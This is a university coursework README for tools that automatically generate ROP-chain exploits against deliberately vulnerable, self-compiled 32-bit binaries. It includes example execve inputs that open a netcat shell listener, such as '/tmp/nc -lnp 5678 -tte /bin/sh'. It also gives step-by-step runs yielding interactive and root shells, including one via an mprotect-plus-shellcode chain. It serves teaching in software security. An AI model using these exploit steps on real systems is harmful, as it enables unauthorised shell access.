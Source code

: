 # COMSM0051 Systems and Software Security Coursework
## Project 4
### Group Members

This repository contains the source code created for the COMSM0051 Systems and Software Security unit at the University of Bristol.

The members of the group are:

* Ruairi Fox (rf17160)
* Bogdan Stelea (bs17580)
* Emil Centiu (zl18810)

## Instructions

### Prerequisites

The project has been developed and tested on a Ubuntu 18.04.5 LTS Bionic Beaver Virtual Machine. Please run the following commands to install all the packages needed to execute the project:

* `sudo apt-get update`
* `sudo apt-get install -y python3-pip gcc-multilib gdb`
* `sudo apt-get install -y libncurses5-dev libncursesw5-dev`
* `sudo apt-get install -y lynx`
* `sudo apt-get git`
* `git clone https://github.com/slimm609/checksec.sh.git`
* `sudo cp checksec.sh/checksec /bin/checksec`
* `pip3 install pygdbmi`
* `pip3 install capstone`
* `pip3 install ropgadget`

A Vagrantfile is also provided in the repository which will install automatically all the required packages on provision when initialising the VagrantBox `vagrant up`.
In order to use the Vagrantfile, the Vagrant and Oracle VirtualBox utilities need to be installed. 

In order to install VirtualBox please follow the instructions for specific Operating Systems [here](https://www.virtualbox.org/wiki/Downloads).
In order to install Vagrant please follow the instructions for specific Operating Systems [here](https://www.vagrantup.com/).

### Connecting to the Vagrant Virtual Machine

1. Start the Vagrant Virtual Machine: `vagrant up`
1. Connect to the Vagrant Virtual Machine: `vagrant ssh`
1. Change directory to the shared directory which includes the project files: `cd s3`

### Running `ropoverflow_execve.py`

The tool `ropoverflow_execve.py` is a Python3 program that given arbitrary command line arguments to be passed to the `execve()` system call automatically generates the corresponding ROP chain.

The program can be used as follows: `python3 ropoverflow_execve.py <binary name> <payload name>`, where `<binary name>` should be replaced with the compiled binary that is vulnerable to a stack buffer overflow exploit, e.g. `vuln3-32-test`, and `<binary name>` should be replaced with the name of the binary file that will contain the ROP chain, e.g. `exploit.bin`.

The program will also prompt the user to type the command line arguments to be passed to the `execve()` system call separated by whitespace (i.e. `" "`). The program will automatically detect if further `/` characters need to be inserted. 

Here are some example command line parameters that can be given as input when prompted:

* `/bin/sh`
* `/bin//sh`
* `/bin/sh ./exe/crl.sh`
* `/bin/sh ./exe/lyn.sh`
* `/tmp/nc -lnp 5678 -tte /bin/sh`
* `/tmp//nc -lnp 5678 -tte /bin//sh`

The program will generate a file having the same name as written by the user when executed corresponding to the `<payload name>` entry. This can be passed in as input to the vulnerable binary in order to inject the payload, for example `./vuln3-32-test exploit.bin`.

#### Example Use Case
1. Run `python3 ropoverflow_execve.py vuln3-32-test exploit.bin`
1. When prompted, enter the command line arguments: `/bin/sh`
1. Run `./vuln3-32-test exploit.bin`
1. The program will return an interactive shell:
```
opening file
file opened
$
``` 

### Lab4 Reverse Shell Exploit Task Using `ropoverflow_execve.py`
#### Aim
Open a port on the victim machine using netcat tool that returns a shell (reverse shell exploit).
#### Steps
1. Change current directory to `s3` : `cd s3`
1. Copy netcat to temporary folder using `sudo cp ~/netcat-0.7.1/src/netcat /tmp/nc` (check using `/tmp/nc --help`)
1. Compile vuln3.c using `gcc -fno-stack-protector -m32 -static vuln3.c -o vuln3-32-test` (the example binary is already compiled and present under the same name, `vuln3-32-test`, in the current directory)
1. Build the exploit input string using `python3 ropoverflow_execve.py vuln3-32-test exploit.bin`. When prompted with the message `"Enter exploit parameters:"` enter: `/tmp/nc -lnp 5678 -tte /bin/sh`
1. Run the compiled vulnerable binary passing the exploit file as input (e.g. `./vuln3-32 exploit.bin`)
1. In a separate terminal run `/tmp/nc 127.0.0.1 5678` and check if the reverse shell exploit is working

### Running `ropoverflow_execve.py` Evaluation
1. Change current directory to vulnerable_programs/: `cd ~/s3/vulnerable_programs`
1. (Optional) Delete binary files: `make clean`
1. Compile vulnerable binary files: `make all`
1. Return to project directory: `cd ..`
1. Create ROP-chain exploit file for a vulnerable binary: `python3 ropoverflow_execve.py ./vulnerable_programs/vuln3-32-0 exploit.bin`
1. Enter `execve` parameters when promted by the program: 
```
Enter exploit parameters: /bin/sh
```
1. Run vulnerable binary file with the exploit file as input: `./vulnerable_programs/vuln3-32-0 exploit.bin`
1. The program will return an interactive shell:
```
opening file
file opened
$
``` 
### Running `ropoverflow.py`

The tool `ropoverflow.py` is a Python3 program that given an arbitrary shellcode file will generate a ROP chain that will call the `mprotect` system call which will disable the `write-xor-execute` protection from the stack, and then will call the `read` system call to read the shellcode from the standard input, which will place the shellcode on the program stack, and then execute the payload.

The program is run with the command: `python3 ropoverflow.py <binary name> <payload name>`, , where `<binary name>` should be replaced with the compiled binary that is vulnerable to a stack buffer overflow exploit, e.g. `vuln3-32-test`, and `<binary name>` should be replaced with the name of the binary file that will contain the ROP chain, e.g. `exploit.bin`.

The shellcode needs to be saved in a binary file, for example `badfile`. Then the user can run the exploit by using the `cat` Linux utility to paste the content of the shellcode file to the terminal and append `-` to allow the program to process entries from standard input, and use the pipe (`|`) operator to pass the content of the file to the vulnerable binary that is being passed the payload file containing the ROP chain generated by the `ropoverflow.py` program. An example command looks like following: `cat badfile -| ./vuln3-32-test exploit.bin`. 

#### Example Use Case
1. Run `python3 ropoverflow.py vuln3-32-test exploit.bin`
1. Run `cat test_codes/shell - | sudo ./vuln3-32-test exploit.bin`
1. The program will return a root user shell